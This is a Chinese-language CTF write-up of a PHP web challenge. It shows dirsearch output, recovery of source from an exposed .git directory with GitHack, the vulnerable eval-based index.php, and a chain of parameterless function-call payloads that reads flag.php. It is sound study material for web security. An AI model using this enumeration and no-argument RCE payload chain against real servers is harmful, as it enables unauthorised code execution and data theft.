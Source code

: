![[Pasted image 20221114101936.png]]

---
首页长这样

![[Pasted image 20221114101945.png]]

然后好像就没有然后了QAQ

---
尝试使用`dirsearch`进行目录扫描
```shell
./dirsearch.py -u http://xxx.node4.buuoj.cn/ -t 1
```

```python
# Dirsearch started Mon Nov 14 10:28:50 2022 as: /home/chen/Desktop/proj/repos/dirsearch/dirsearch.py -u http://xxx.node4.buuoj.cn/ -t 1

301   185B   http://xxx.node4.buuoj.cn/.git    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/
403   169B   http://xxx.node4.buuoj.cn/.git/
403   169B   http://xxx.node4.buuoj.cn/.git/branches/
200   267B   http://xxx.node4.buuoj.cn/.git/COMMIT_EDITMSG
200    92B   http://xxx.node4.buuoj.cn/.git/config
200    73B   http://xxx.node4.buuoj.cn/.git/description
200    23B   http://xxx.node4.buuoj.cn/.git/HEAD
403   169B   http://xxx.node4.buuoj.cn/.git/hooks/
200   137B   http://xxx.node4.buuoj.cn/.git/index
403   169B   http://xxx.node4.buuoj.cn/.git/info/
200   240B   http://xxx.node4.buuoj.cn/.git/info/exclude
403   169B   http://xxx.node4.buuoj.cn/.git/logs/
200   150B   http://xxx.node4.buuoj.cn/.git/logs/HEAD
301   185B   http://xxx.node4.buuoj.cn/.git/logs/refs    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/logs/refs/
301   185B   http://xxx.node4.buuoj.cn/.git/logs/refs/heads    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/logs/refs/heads/
200   150B   http://xxx.node4.buuoj.cn/.git/logs/refs/heads/master
403   169B   http://xxx.node4.buuoj.cn/.git/objects/
403   169B   http://xxx.node4.buuoj.cn/.git/refs/
301   185B   http://xxx.node4.buuoj.cn/.git/refs/heads    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/refs/heads/
200    41B   http://xxx.node4.buuoj.cn/.git/refs/heads/master
301   185B   http://xxx.node4.buuoj.cn/.git/refs/tags    -> REDIRECTS TO: http://xxx.node4.buuoj.cn/.git/refs/tags/
```
发现可能存在`git`源码泄露，使用`GitHack`获取源码
```shell
chen@cracktc-no-omen ~/D/p/r/GitHack (master)> ./GitHack.py http://xxx.node4.buuoj.cn/.git/
[+] Download and parse index file ...
[+] index.php
[OK] index.php
```
---
index.php
```php
<?php  
include "flag.php";  
echo "flag在哪里呢？<br>";  
if(isset($_GET['exp'])){  
   if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {  
       if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {  
           if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {  
               // echo $_GET['exp'];  
               @eval($_GET['exp']);  
           }  
           else{  
               die("还差一点哦！");  
           }  
       }  
       else{  
           die("再好好想想！");  
       }  
   }  
   else{  
       die("还想读flag，臭弟弟！");  
   }  
}  
// highlight_file(__FILE__);  
?>
```
只接受函数套函数的形式，禁止套娃.jpg

---
# 思路
主要就是想办法只通过函数的嵌套搞出`'.'`，从而通过`scandir('.');`来获得目录下的文件，再通过数组操作取`flag.php`传给`highlight_file`函数，达到获取`flag`的目的

---
# 获取`'.'`
搜索得知，`localeconv()`函数能够返回区域格式相关的信息
```php
/?exp=var_dump(localeconv());
```

```php
array(18) {
  ["decimal_point"]=>
  string(1) "."
  ["thousands_sep"]=>
  string(0) ""
  ["int_curr_symbol"]=>
  string(0) ""
  ["currency_symbol"]=>
  string(0) ""
  ["mon_decimal_point"]=>
  string(0) ""
  ["mon_thousands_sep"]=>
  string(0) ""
  ["positive_sign"]=>
  string(0) ""
  ["negative_sign"]=>
  string(0) ""
  ["int_frac_digits"]=>
  int(127)
  ["frac_digits"]=>
  int(127)
  ["p_cs_precedes"]=>
  int(127)
  ["p_sep_by_space"]=>
  int(127)
  ["n_cs_precedes"]=>
  int(127)
  ["n_sep_by_space"]=>
  int(127)
  ["p_sign_posn"]=>
  int(127)
  ["n_sign_posn"]=>
  int(127)
  ["grouping"]=>
  array(0) {
  }
  ["mon_grouping"]=>
  array(0) {
  }
}
```
通过`current`函数可以取该数组的第一个元素，也就是小数点`.`
```php
/?exp=var_dump(current(localeconv()));
```

```php
string(1) "."
```
---
# 获取目录文件
```php
/?exp=var_dump(scandir(current(localeconv())));
```

```php
array(5) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(4) ".git"
  [3]=>
  string(8) "flag.php"
  [4]=>
  string(9) "index.php"
}
```

# 获取`'flag.php'`
`'flag.php'`在数组的倒数第二个位置

可以通过`array_reverse`函数将数组倒序返回，再利用`next`函数取第二个元素
```php
/?exp=var_dump(next(array_reverse(scandir(current(localeconv())))));
```

```php
string(8) "flag.php"
```

# 读取`flag.php`
```php
/?exp=var_dump(highlight_file(next(array_reverse(scandir(current(localeconv()))))));
```

```php
<?php
$flag = "flag{b0706baf-2c5c-4499-8a5e-8961814c3bf6}";
?>
```

---
这篇大佬写的wp还介绍了更多无参数RCE的骚操作

https://johnfrod.top/ctf/gxyctf-2019禁止套娃/

#Web #PHP #git泄露 #目录扫描 #数组 #function #RCE #无参数
